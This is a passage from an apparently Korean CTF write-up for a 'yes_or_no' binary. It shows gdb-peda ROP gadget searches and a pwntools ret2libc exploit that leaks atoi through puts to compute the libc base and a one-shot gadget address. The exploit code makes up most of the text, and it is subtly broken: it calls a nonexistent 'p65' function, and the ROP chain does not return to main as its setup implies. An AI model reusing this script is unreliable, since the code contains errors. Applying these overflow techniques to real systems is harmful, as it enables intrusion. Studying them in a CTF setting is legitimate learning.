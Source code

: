 또, 함수의 인자를 주기 위해서는 gadget이 필요하다. 필요한 gadget들과 그 위치는 다음과 같다.
```gdb
    gdb-peda$ ropsearch "pop rdi"
    Searching for ROP gadget: 'pop rdi' in: binary ranges
    0x00400883 : (b'5fc3')	pop rdi; ret
```
**pop\_rdi\_ret=0x400883**
```gdb
    gdb-peda$ ropsearch "pop rsi"
    Searching for ROP gadget: 'pop rsi' in: binary ranges
    0x00400881 : (b'5e415fc3')	pop rsi; pop r15; ret
```
**pop\_rsi\_pop\_r15\_ret=0x400881**

**main=0x4006c7**


`main()`에서 s의 위치가 rbp-0x12이므로 payload는 다음과 같다.

**[dummy 26bytes]+[return address]**

이를 이용하여 다음과 같이 익스코드를 짜보았다.

```python
from pwn import*

p=process('./yes_or_no')
#p=remote('ctf.j0n9hyun.xyz',3009)

puts_plt=0x400580
atoi_got=0x601040
atoi_offset=0x36e80
do_system_offset=0x44e20

pop_rdi_ret=0x400883
pop_rsi_pop_r15_ret=0x400881
main=0x4006c7

#####

p.recvline()
p.sendline('9830400')

p.recvline()

payload='A'*26
payload+=p64(pop_rdi_ret)
payload+=p65(atoi_got)
payload+=p64(pop_rsi_pop_r15_ret)
payload+=p64(0)
payload+=p64(0)
payload+=p64(puts_plt)
payload+=p64(pop_rdi_ret)
payload+=p64(0)

p.sendline(payload)

atoi_address=p.recv(6)
atoi_address=u64(atoi_address+'\x00'*2)
libc_base=atoi_address-atoi_offset
do_system_address=libc_base+do_system_offset
oneshot_gadget=do_system_address+1098

log.info("atoi_address is "+str(hex(atoi_address)))
log.info("do_system_address is "+str(hex(do_system_address)))
log.info("oneshot_gadget is "+str(hex(oneshot_gadget)))

```